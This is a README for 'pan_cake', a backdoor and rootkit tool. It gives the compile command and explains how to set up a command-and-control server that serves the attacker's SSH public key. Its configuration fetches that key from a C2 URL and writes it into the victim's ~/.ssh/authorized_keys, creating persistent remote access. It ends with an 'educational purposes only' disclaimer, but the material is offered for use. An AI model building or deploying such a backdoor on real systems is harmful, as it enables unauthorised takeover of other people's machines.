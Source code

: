 # pan_cake
It's main features consist of an SSH backdoor, and it has dropper capabilities. 

Pancake can be compiled with: `gcc backdoor.c net_functions.c -l curl -o rootkit`

Pancake needs a few things to work. These are libcurl, a command and control server with your public SSH key available for download, and that SSH is installed on the target machine. You will need to configure all of these in `backdoor.c`

# config
to configure pancake, go down to lines 31 through 33 and change them as needed. The variables that will need to be changed include: `config_1.url = "http://0.0.0.0/key.pub";`, `config_1.source_and_outfile = "/tmp/key.pub";`, and `config_1.destination = "~/.ssh/authorized_keys";`. 
  
  You don't necesarrily need to change any of them except for the CNC. I advise against changing `config_1.destination`


I am not responsible for anything you do with this. For educational purposes only. 
